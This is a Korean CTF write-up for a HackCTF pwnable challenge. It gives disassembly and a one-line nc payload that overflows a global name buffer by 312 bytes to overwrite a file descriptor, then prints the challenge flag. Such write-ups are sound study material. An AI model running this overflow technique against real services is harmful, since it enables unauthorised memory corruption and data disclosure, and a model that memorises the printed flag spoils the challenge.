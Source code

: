 #j0n9hyun's secret

---

이번 바이너리 파일은 정적 라이브러리를 사용하며 안티디버깅 되어있다. 우선 보호기법은 다음과 같다.

<pre>
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
</pre>

gdb로 분석해보니 놀랍도록 간단한 프로그램이었다. 다음을 보자.

<pre>
push    rbp
mov     rbp, rsp
sub     rsp, 10h
mov     rax, cs:off_6CA748
mov     ecx, 0
mov     edx, 2
mov     esi, 0
mov     rdi, rax
call    setvbuf_40FDD0
mov     rax, cs:off_6CA740
mov     ecx, 0
mov     edx, 2
mov     esi, 0
mov     rdi, rax
call    setvbuf_40FDD0
mov     rax, cs:off_6CA738
mov     ecx, 0
mov     edx, 2
mov     esi, 0
mov     rdi, rax
call    setvbuf_40FDD0
mov     esi, 72h ; 'r'
mov     edi, offset aTopSecret ; "top_secret"
mov     eax, 0
call    fopen_43F670
mov     cs:fp_6CCE98, eax
mov     edi, offset aInputName ; "input name: "
mov     eax, 0
call    printf_40F3D0
mov     esi, offset name_6CCD60
mov     edi, offset aS  ; "%s"
mov     eax, 0
call    scanf_40F500
mov     eax, cs:fp_6CCE98
mov     edx, 12Ch
mov     esi, offset unk_6CCD6A
mov     edi, eax
call    read_43F6D0
mov     [rbp+var_4], eax
mov     eax, [rbp+var_4]
cdqe
mov     rdx, rax
mov     esi, offset unk_6CCD6A
mov     edi, 1
call    write_43F730
mov     eax, 0
leave
retn
</pre>

`main()`의 코드를 보면 name을 입력받은 후, top_secret이라는 파일에 적힌 내용을 buffer에 옮겨 담아 출력하는 코드다. 이때 top_secret을 가리키는 fp를 4에서 3으로 고치기만 하면 된다. buffer의 주소인 0x6ccd60과 fp의 주소인 0x6cce98사이의 거리는 312이므로 다음과 같이 flag를 얻을 수 있다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/32.j0n9hyun's_secret$ (python -c "print 'A'*312+'\x03'";cat) | nc ctf.j0n9hyun.xyz 3031
input name: HackCTF{ez_fd_0v4rwr1t4}
</pre>

**flag: HackCTF{ez_fd_0v4rwr1t4}**